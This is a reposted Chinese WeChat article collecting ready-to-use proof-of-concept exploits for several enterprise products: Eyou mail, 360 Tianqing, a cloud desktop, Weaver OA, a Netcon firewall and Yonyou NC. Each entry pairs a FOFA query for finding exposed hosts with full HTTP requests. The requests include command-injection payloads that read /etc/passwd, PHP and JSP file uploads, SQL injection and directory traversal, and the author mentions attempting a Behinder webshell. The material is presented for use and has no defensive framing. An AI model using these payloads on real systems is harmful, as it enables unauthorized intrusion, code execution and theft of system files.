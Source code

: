 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/wH5luLISE_G381W2ssv93g)

1. 亿邮电子邮件系统远程命令执行

```
body="亿邮电子邮件系统"
```

POC:  

```
POST /webadm/?q=moni_detail.do&action=gragh HTTP/1.1
Host: x.x.x.x
Content-Length: 25
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chro·me/89.0.4389.114 Safari/537.36

type='|cat /etc/passwd||'
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZib2wnArrS3jT5gIhvpgPMyFz6nUiccgXBBzC8TMTpGC1HerEYWw4BADV3jTudD9bgsFpicWFkeWDsA/640?wx_fmt=png)

2. 360 天擎终端安全管理系统前台 SQL 注入

```
title="360天擎"
```

注入点 ccid：  

```
/api/dp/rptsvcsyncpoint?ccid=1
```

访问 http://x.x.x.x:x/api/dp/rptsvcsyncpoint?ccid=1，返回的 json 数据包中包含 reason: "success"，说明存在该漏洞

```
GET /api/dp/rptsvcsyncpoint?ccid=1 HTTP/1.1
Host: x.x.x.x
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SKYLAR6245a4607a3abfe4722059886f=11uqi05v66mcua075ojrhn4lt1; YII_CSRF_TOKEN=d054b4d32ba8bd1006384c897e3bcc59137cbb96s%3A40%3A%22320759c11f5391c38c93ab149a3c8085e5413f35%22%3B
Connection: close
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZib2wnArrS3jT5gIhvpgPMywDKwgicI9mbKaGOuYKD4z9Ae5xfOib3u1zLQXZNvWAblfFIajPYMZIYA/640?wx_fmt=png)

sqlmap 梭哈：  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZib2wnArrS3jT5gIhvpgPMyCmwVjWYIuYlxYpoOHQoe8oyCCJ23iacNau06EH6oVfOdwJSrib2URZtA/640?wx_fmt=png)

2.1 天擎 数据库信息泄露漏洞

poc:  

```
http://x.x.x.x/api/dbstat/gettablessize
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZib2wnArrS3jT5gIhvpgPMyB3rvjmuSjb8Eib9HTAeQXtzibuMbfK4Umy7pJ96uiaRyiaKoHMBdVsm19w/640?wx_fmt=png)

3. 核心创天云桌面系统远程命令执行

```
body="和信下一代云桌面"
```

前台的样子：  

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZib2wnArrS3jT5gIhvpgPMyibtWViakKmjoEQpbPMzUSxsQu4B9G7fiakyMIMUgGGFN8g2CwEsuKStUg/640?wx_fmt=png)

POC：

```
POST /Upload/upload_file.php?l=test HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/*,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,fil;q=0.8
Cookie: think_language=zh-cn; PHPSESSID_NAMED=h9j8utbmv82cb1dcdlav1cgdf6
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryfcKRltGv
Content-Length: 183

------WebKitFormBoundaryfcKRltGv
Content-Disposition: form-data; 
Content-Type: image/avif

<?php phpinfo(); ?>
------WebKitFormBoundaryfcKRltGv--
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZib2wnArrS3jT5gIhvpgPMyNIdibkUmYrW7Lb0VRicib4kPYgo6nxw4n5BsIA55VTwlzwDMKvUpro8cw/640?wx_fmt=png)

上传后访问：

```
http://xxx.xx.xxx.xxx/Upload/test/test.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZib2wnArrS3jT5gIhvpgPMygtybzdfhf4UthStJFLZGicQt6HqricLL4bibJ4lVjianMicoeORtW8yfH0w/640?wx_fmt=png)

4. 泛微 OA V9 前台上传漏洞

```
app="Weaver-OA"
```

POC：  

```
POST /page/exportImport/uploadOperation.jsp HTTP/1.1
Host: x.x.x.x
Content-Length: 216
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://x.x.x.x/
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFy3iNVBftjP6IOwo
Connection: close

------WebKitFormBoundaryFy3iNVBftjP6IOwo
Content-Disposition: form-data; 
Content-Type: application/octet-stream

<%out.print(1111);%>
------WebKitFormBoundaryFy3iNVBftjP6IOwo--
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZib2wnArrS3jT5gIhvpgPMyWKxr3LR0uov5YEYvq00cEEK8LAGvgb95QPu6yAWH45btXKIFxic4IiaQ/640?wx_fmt=png)

然后访问：  

```
page/exportImport/fileTransfer/12.jsp
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZib2wnArrS3jT5gIhvpgPMyQYXVS4J8V0lYYpO6Uqib6VL5Ruz7RKP1LiczEuevlg3GgXGacN6FtDNw/640?wx_fmt=png)

这里传了冰蝎连不上，不知道是不是 waf 的原因。未作深究

5. 奇安信 网康下一代防火墙 RCE

```
app="网康科技-下一代防火墙"
```

POC：  

```
POST /directdata/direct/router HTTP/1.1
Host: x.x.x.x
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://x.x.x.x/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=d6o8gdugrhmvf2sq18ojhj50p3; ys-active_page=s%3A
Content-Length: 178

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_test.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```

访问：https://x.x.x.x/test_test.txt

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZib2wnArrS3jT5gIhvpgPMyX6jEujQCSJwa3AEUSjY8zqsjRz88W0ZDjicCrs9IRpY7yOz7NOLHuyw/640?wx_fmt=png)

6. 用友 ERP-NC 目录遍历漏洞

```
app="用友-UFIDA-NC"
```

POC:  

```
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZib2wnArrS3jT5gIhvpgPMy4tfMICZz06kvv26XZpGuh164iaDh6eUAGOMXs4sibtraIyKstPZcIgsA/640?wx_fmt=png)

在 filename 后面加文件名即可读取文件：

```
/NCFindWeb?service=IPreAlertConfigService&filename=ncwslogin.jsp
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNZib2wnArrS3jT5gIhvpgPMyc1eLvM5tSYGqslpIyTkicCKZrEV2AQxATbFKvMIlSUtiahYLQjLPx8GQ/640?wx_fmt=png)

公众号